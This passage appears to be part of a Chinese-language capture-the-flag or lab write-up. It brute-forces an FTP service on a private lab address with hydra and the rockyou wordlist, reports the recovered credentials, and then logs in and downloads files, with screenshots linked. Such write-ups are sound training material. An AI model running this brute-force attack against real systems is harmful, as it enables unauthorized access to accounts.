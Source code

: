 那么尝试爆破`ftp`服务，获取到用户名`luther`密码`mypics`

```shell
hydra -L user -P /usr/share/wordlists/rockyou.txt 192.168.1.61 ftp
```

![](./pic-4/14.jpg)

使用用户名和密码连接`ftp`

![](./pic-4/15.jpg)

下载文件到`kali`中

![](./pic-4/16.jpg)
